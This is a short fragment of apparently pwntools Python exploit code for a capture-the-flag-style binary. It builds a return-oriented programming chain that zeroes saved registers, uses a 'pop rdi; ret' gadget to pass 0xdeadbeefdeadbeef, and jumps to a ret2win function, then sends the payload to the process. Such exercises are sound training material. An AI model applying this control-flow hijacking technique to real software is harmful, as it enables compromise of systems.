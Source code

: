 ```text-x-python
payload2 += p64(0x0) # rbx
payload2 += p64(0x0) # rbp
payload2 += p64(0x0) # r12
payload2 += p64(0x0) # r13
payload2 += p64(0x0) # r14
payload2 += p64(0x0) # r15
payload2 += p64(0x4006a3) # 0x00000000004006a3: pop rdi; ret;
payload2 += p64(0xdeadbeefdeadbeef) # -> rdi
payload2 += p64(ret2win)

line1 = p.recvuntil(b'>')
print(line1)

p.sendline(payload1 + payload2)
line2 = p.recvall()
print(line2)

# p.interactive()
```